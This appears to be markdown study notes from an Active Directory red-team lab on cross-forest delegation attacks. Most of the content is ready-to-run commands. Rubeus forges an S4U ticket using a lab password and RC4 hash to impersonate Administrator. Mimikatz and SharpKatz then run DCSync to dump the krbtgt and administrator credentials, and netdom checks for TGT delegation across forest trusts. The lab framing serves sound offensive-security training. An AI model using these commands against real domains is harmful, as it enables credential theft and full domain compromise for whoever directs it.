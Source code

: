 # Cross Forest Attacks - Delegations

- [Cross Forest Attacks - Delegations](#cross-forest-attacks---delegations)
  - [Privilege Escalation - Constrained Delegation with Protocol Transition](#privilege-escalation---constrained-delegation-with-protocol-transition)
  - [Cross Forest - Unconstrained Delegation](#cross-forest---unconstrained-delegation)

---

## Privilege Escalation - Constrained Delegation with Protocol Transition

The classic Constrained Delegation does not work across forest trusts, but we can abuse it once we have a beachhead/foothold across forest trust.

- PowerView

```
Get-DomainUser –TrustedToAuth -Domain eu.local
Get-DomainComputer –TrustedToAuth -Domain eu.local
```

- AD Module

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local
```

<br/>

We can request an alternate ticket using Rubeus:

```
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@123 /user:storagesvc /domain:eu.local
```

```
C:\AD\Tools\Rubeus.exe s4u /user:storagesvc /rc4:068A0A7194F8884732E4F5A7CB47E17C /impersonateuser:Administrator /domain:eu.local /msdsspn:nmagent/eu-dc.eu.local /altservice:ldap /dc:eu-dc.eu.local /ptt
```

<br/>

Abuse the TGS to LDAP:

- Mimikatz

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\krbtgt /domain:eu.local"'
```

- SharpKatz.exe

```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\krbtgt --Domain eu.local --DomainController eu-dc.eu.local
```

```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\administrator --Domain eu.local --DomainController eu-dc.eu.local
```

<br/>

## Cross Forest - Unconstrained Delegation

Recall the Printer bug and its abuse from a machine with Unconstrained Delegation - we have used it to escalate privileges to Domain Admin and Enterprise Admin.

- It also works across a **Two-way forest trust with TGT Delegation** enabled!

**TGT Delegation is disabled by default** and must be explicitly enabled across a trust for the trusted (target) forest.

In the lab, `TGTDelegation` is set from `usvendor.local `to `techcorp.local` (but not set for the other direction).

<br/>

**Enumeration**

To enumerate if `TGTDelegation` is enabled across a forest trust, run the below command from a DC:

```
netdom trust <trustingforest> /domain:<trustedforest> /EnableTgtDelegation
```

```
LAB: <br/>
See if `usvendor.local` trusts `techcorp.local`, run the following in `usvendor-dc`.

netdom trust usvendor.local /domain:techcorp.local /EnableTgtDelegation
```

Note:
The PowerShell cmdlets of the ADModule seems to have a bug, the below command shows TGTDelegation set to `False`:
`Get-ADTrust -server usvendor.local -Filter *`
- But when run from `usvendor-dc`, it shows `TGTDelegation` to be `True`.

<br/>

